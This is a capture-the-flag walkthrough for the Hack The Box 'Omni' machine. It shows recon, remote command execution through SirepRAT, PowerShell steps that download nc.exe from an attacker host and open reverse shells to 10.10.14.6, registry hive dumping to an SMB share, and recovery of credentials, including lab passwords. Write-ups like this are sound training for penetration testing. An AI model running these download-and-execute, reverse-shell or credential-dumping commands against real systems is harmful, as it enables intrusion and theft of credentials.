 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🛰️ Recon

**Full Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.204
```

**Service Version Scan**
```bash
nmap -p 135,5985,8080,29817,29819,29820 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.204
```

---

## 🌐 Web Enumeration

**[HTTP](HTTP.md) on port 8080 prompts for auth:**  
> Realm: *Windows Device Portal*

Add to `/etc/hosts`:
```bash
echo "10.10.10.204 omni.htb" | sudo tee -a /etc/hosts
```

---

## 🧰 Exploitation - SYSTEM Access via Sirep

**Tool**: [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT)

**Basic Command Execution**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c dir c:\ '
```

**Working Directory for Staging**
```bash
dir c:\windows\system32\spool\drivers\color /b
```

**Upload nc.exe**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\spool\drivers\color\nc.exe -uri http://10.10.14.6/nc64.exe'
```

**Start Listener**
```bash
rlwrap nc -lnvp 443
```

**Execute Reverse Shell**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443'
```

---

## 🪪 SYSTEM to app

**user.txt is encrypted**
```powershell
(Import-CliXml -Path C:\data\users\app\user.txt).GetNetworkCredential().Password
```

---

## 🔐 Dumping Hashes (Alternate method)

**Start SMB Server**
```bash
smbserver.py share . -smb2support -username df -password df
```

**Mount Share & Dump Registry**
```cmd
net use \\10.10.14.6\share /user:df df
reg save HKLM\sam \\10.10.14.6\share\sam
reg save HKLM\system \\10.10.14.6\share\system
reg save HKLM\security \\10.10.14.6\share\security
```

**Extract with secretsdump**
```bash
secretsdump.py -sam sam -security security -system system LOCAL
```

**Crack with Hashcat or Jupyter Notebook (Penglab)**

---

## 🧑‍💻 Shell as app via HTTP:8080 (Windows Device Portal)

**Login with creds**
```text
Username: app
Password: mesh5143
```

**Command Execution on Portal**:  
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🔑 Privesc app → administrator

**Found Cred Dump File**
```powershell
Import-CliXml -Path iot-admin.xml
```

**Get Creds**
```powershell
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl
```

**Output:**
```text
Username : administrator
Password : _1nt3rn37ofTh1nGz
```

---

## 🧑‍🔬 Shell as Administrator

**Login to Portal with Admin Credentials**

**Reverse Shell**
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🏁 Loot Flags

**Get root.txt**
```powershell
(Import-CliXml -Path C:\data\users\administrator\root.txt).GetNetworkCredential().Password
```
